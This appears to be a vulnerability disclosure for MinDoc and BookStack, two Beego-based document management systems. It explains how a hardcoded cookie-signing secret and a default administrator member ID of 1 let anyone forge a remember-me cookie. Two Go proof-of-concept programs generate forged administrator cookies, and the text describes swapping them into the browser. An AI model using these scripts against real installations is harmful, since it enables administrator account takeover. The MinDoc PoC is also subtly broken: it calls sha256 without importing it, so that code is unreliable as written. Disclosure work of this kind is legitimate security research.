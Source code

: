 ## Vulnerable Detail

MinDoc and BookStack are document management system. They both develop their web services based on Beego. Besides, BookStack is based on MinDoc. They have same IDOR vulnerables.

### Execution track

All function are implemented by different **Controller**. **BaseController** (like Parent class) run the **Prepare()** at every beginning.

![](http://www.cinderxxx.xyz/mindoc-BookStack-IDOR-Vulnerable/1.png)

In **Prepare()**, if applications do not get session information, they try to use cookie to access account.

![](http://www.cinderxxx.xyz/mindoc-BookStack-IDOR-Vulnerable/22.png)

**GetSecureCookie()** is implemented by beego. In this function, it check if cookie has ***key*** field firstly. Then, it split this field to ***vs***, ***timestamp*** and ***sig***. It use sha256/sha1 algorithm and secret key ***Secret*** to encrypt the combination of ***vs*** and ***timestamp***. In the end, if ciphertext == ***sig***, it return the ***vs*** after decode by base64.

![](http://www.cinderxxx.xyz/mindoc-BookStack-IDOR-Vulnerable/3.png)

In the next step, function **Decode(value,r)** deserialize the value into r. In this scene, ***value*** is the output of **GetSecureCookie()** and ***r*** is the object of the struct ***CookieRemember***.

![](http://www.cinderxxx.xyz/mindoc-BookStack-IDOR-Vulnerable/5.png)

![](http://www.cinderxxx.xyz/mindoc-BookStack-IDOR-Vulnerable/6.png)

After deserialization, appications use ***remember.MemberId*** find the account information and access the account.

### Unsafe logic

In summary, the first problem is in the parameter ***Secret*** of **GetSecureCookie()**. ***Secret*** is come from **conf.GetAppKey()**. This is a static value ("mindoc"/"godoc") and do not ask for changing the value in the setup stage. The second problem is that the default member Id of the administrator is 1. Based on these problems, we can forge the cookie to access the account of the administrator.

![](http://www.cinderxxx.xyz/mindoc-BookStack-IDOR-Vulnerable/4.png)

### PoC

***PoC for Bookstack***

```golang
package main

import (
	"bytes"
	"crypto/hmac"
	"crypto/sha1"
	"encoding/base64"
	"encoding/gob"
	"fmt"
	"time"
)

type CookieRemember struct {
	MemberId int
	Account  string
	Time     time.Time
}

func main() {
	m := CookieRemember{MemberId: 1, Account: "2"}
	var network bytes.Buffer
	enc := gob.NewEncoder(&network)
	enc.Encode(m)
	encoded := base64.URLEncoding.EncodeToString([]byte(network.String()))
	fmt.Println("base64，vs:", encoded)
	s := "godoc"
	h := hmac.New(sha1.New, []byte(s))
	fmt.Fprintf(h, "%s%s", encoded, "123")
	a := fmt.Sprintf("%02x", h.Sum(nil))
	fmt.Println("sha1，sig:", a)
}
```

***PoC for Mindoc***

```golang
package main

import (
	"bytes"
	"crypto/hmac"
	"crypto/sha1"
	"encoding/base64"
	"encoding/gob"
	"fmt"
	"time"
)

type CookieRemember struct {
	MemberId int
	Account  string
	Time     time.Time
}

func main() {
	m := CookieRemember{MemberId: 1, Account: "2"}
	var network bytes.Buffer
	enc := gob.NewEncoder(&network)
	enc.Encode(m)
	encoded := base64.URLEncoding.EncodeToString([]byte(network.String()))
	fmt.Println("base64，vs:", encoded)
	s := "mindoc"
	h := hmac.New(sha256.New, []byte(s))
	fmt.Fprintf(h, "%s%s", encoded, "123")
	a := fmt.Sprintf("%02x", h.Sum(nil))
	fmt.Println("sha256，sig:", a)
 }
```
After get the fake ***sig*** and ***vs***, we can connect them by '\|' (need not to condsider *timestamp*). We replace the original cookie and access the account of the administrator.

![](http://www.cinderxxx.xyz/mindoc-BookStack-IDOR-Vulnerable/8.png)

![](http://www.cinderxxx.xyz/mindoc-BookStack-IDOR-Vulnerable/9.png)

